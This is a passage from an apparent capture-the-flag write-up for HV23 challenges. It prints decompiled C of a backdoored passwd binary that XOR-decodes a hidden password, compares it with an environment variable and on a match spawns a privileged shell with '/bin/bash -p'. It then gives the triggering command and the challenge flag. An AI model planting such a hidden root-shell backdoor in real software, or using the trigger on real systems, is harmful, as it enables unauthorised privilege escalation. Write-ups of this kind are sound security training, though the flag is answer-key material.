 ```c
	char key[] = "nevergonnagiveyouup";
  char xor_password[] = "";
  char output[6];

  for (i=0; i<6; i++) {
  	char temp = xor_password[i] ^ key[i];
  	output[i] = temp;
  }
	char password[] ={0x1b, 0x15, 0x18, 0x11, 0x1e, 0x53, 0x5c, 0x4e, 0x1b, 0x16, 0x1a, 0x47, 0x0a, 0x0e, 0x19, 0x15, 0x18, 0x0b, 0x16, 0x4f, 0x0f, 0x0e, 0x00, 0x46, 0x04, 0x00, 0x18, 0x02, 0x05, 0x56, 0x05, 0x5c, 0x08, 0x30, 0x1a, 0x5d, 0x04, 0x58, 0x3b, 0x06, 0x35, 0x0a, 0x22};

	char pw[43];    // pw=https://www.youtube.com/watch?v=dQw4w9WgXcQ
	for (int i = 0; i < sizeof(password); i++) {
		char tmp = password[i] ^ output[i % 6];
		pw[i] = tmp;
	}
	// check da env
	if (strcmp(salami, pw) != 0) {
		printf("Never gonna give you up!\nYou'll never escape the rickroll.");
		exit(1);
	}
	puts("Enjoy your salami!");

  system("/bin/bash -p");
```
When looking at the registers in gdb we can see that the password is: https://www.youtube.com/watch?v=dQw4w9WgXcQ.   
When you then execute 
```bash 
SALAMI=https://www.youtube.com/watch?v=dQw4w9WgXcQ passwd -E
```
 you get the flag.  
A solve.py can be found [here](./15-pREVesc/solve.py).  
  
Flag: **HV23{3v1l_p455wd}**   


## [HV23.16] Santa's Gift Factory (fabi_07)
### Description
> Did you know that Santa has its own factory for making gifts? Maybe you can exploit it to get your own special gift!
### Solution
When running the binary, you firstly have to complete a simple counting excersise. After this the tellflag function get called which only gives you a little part of the flag, because the rest seems to have been lost. 
```c
void tellflag() {
  char buffer[128];
  FILE *fp = fopen("flag", "r");
  if(fp == NULL) {
    error("Opening flag file failed!!! Please contact the admins.");
  }

  char flag[6];
  int len = fread(flag, 1, 5, fp);
  flag[len] = '\0';

  if(fclose(fp) < 0) {
    error("Closing flag file failed!!! Please contact the admins.");
  }

```